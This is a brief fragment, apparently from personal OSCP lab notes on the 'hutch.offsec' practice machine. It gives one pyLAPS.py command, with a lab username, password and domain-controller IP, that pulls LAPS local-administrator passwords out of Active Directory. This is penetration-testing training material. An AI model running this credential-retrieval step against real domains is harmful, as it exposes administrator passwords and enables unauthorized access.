 
#### Using Python

```bash
python ~/oscp/pyLAPS.py --action get -d 'hutch.offsec' -u 'fmcsorley' -p 'CrabSharkJellyfish192' --dc-ip 192.168.220.122
```

[[LDAP Pulling data]]

